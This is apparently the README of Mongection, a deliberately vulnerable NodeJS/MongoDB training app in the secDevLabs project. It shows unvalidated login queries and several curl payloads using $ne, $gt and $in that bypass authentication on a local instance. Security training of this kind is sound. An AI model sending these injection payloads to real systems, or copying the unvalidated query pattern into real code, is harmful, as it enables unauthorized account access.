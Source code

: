 # Mongection

<p align="center"><img  src="images/a1-banner.png"/></p>

Mongection is a simple NodeJS web application that simulates a login page and contains an example of a NoSQL Injection vulnerability. It has both `/register` and `/login` routes that, by communicating with a MongoDB, enable users to register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **NoSQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a1/mongection
```

```sh
make install
```

Then simply visit [localhost:10001][app], as exemplified below:

<img src="images/attack0.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.

* Register another user now using command line:

```sh
curl -X POST http://localhost:10001/register -H "Content-Type: application/json" --data '{"name":"bob", "email":"bob@example.com", "password":"bobisboss"}'
```

- Login as this second user now using command line:

```sh
curl -X POST http://localhost:10001/login -H "Content-Type: application/json" --data '{"email":"bob@example.com", "password":"bobisboss"}'
```

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of NoSQL queries

After reviewing [db.js](https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/mongection/src/db.js) file, it was possible to see that some input from users is concatenated with NoSQL queries, as shown in the following code snippets:

```js
const existUser = await User.findOne({ email: email });
```

```js
const existsUser = await User.find({
  $and: [{ email: email }, { password: password }],
});
```

As no validation is being made on these variables, injected queries may be successfully executed in MongoDB. Some directives like `$ne` or `$gt`, if successfully injected, could bypass API authentication.

#### 🔥

An attacker could create a malicious query such as `{"$ne":""}` and pass it to email and password fields. Since `$ne` is the not equals condition in MongoDB, this is querying all the entries in the logins collection where both `username` and `password` are not equal to "" (empty).

Using `curl` on CLI interface, the malicious payload could be sent as shown bellow:

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$ne":""}, "password": {"$ne":""}}'
```

<p  align="center"><img  src="images/attack1.png"/></p>

The application will return the first user that MongoDB finds with a "Hello, Welcome Again!" message, demonstrating that authentication has been bypassed. There must be at least one user already registered in the database to recieve this message.

The same result could be reached if the attacker sent a payload using `$gt` (greater than) directive. The following query will search for entries with both `username` and `password `fields greater than "" (empty).

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$gt": ""}, "password": {"$gt": ""}}'
```

<p  align="center"><img  src="images/attack2.png"/></p>

Another possible malicious payload could use `$in` directive. The following query will iterate through every element of the given array and try each value listed for the `username` field. Also, `{"$gt":""}` will guarantee the `password` field is not evaluated.

```sh
curl -X 'POST' 'http://localhost:10001/login' -H "Content-Type: application/json" --data '{"email": {"$in":["admin@example.com", "root@example", "ana@example.com", "bob"]}, "password": {"$gt":""}}'
```

<p  align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

- Run NoSQL queries in the database.

## PR Solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Mongection%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
